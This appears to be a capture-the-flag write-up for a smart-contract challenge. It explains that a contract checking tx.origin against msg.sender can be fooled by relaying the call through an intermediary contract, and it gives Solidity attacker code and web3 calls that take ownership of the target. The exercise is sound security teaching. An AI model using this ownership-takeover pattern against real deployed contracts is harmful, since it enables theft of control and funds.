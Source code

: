 Function calls can be chained, which explains why `tx.origin` can be different from `msg.sender`:

```solidity
if (tx.origin != msg.sender) {
  owner = _owner;
}
```

Deploy this contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Telephone {
    function changeOwner(address) external;
}

contract Ring {

  address TARGET = 0x1a44601091adFD6801b1Bf8F6466d0A7e6152650;

  constructor() {}

  function ring() public {
    Telephone(TARGET).changeOwner(msg.sender);
  }
}
```

And just call it:

```js
abi = '[{"inputs":[],"name":"ring","outputs":[],"stateMutability":"nonpayable","type":"function"},{"inputs":[],"stateMutability":"nonpayable","type":"constructor"}]';
agent = new web3.eth.Contract(JSON.parse(abi), '0x409fe684247eb911aeb27b6732643e7d8c02b0db');
agent.methods.ring().send({from: player}, function(error, data) {console.log(data);});
```
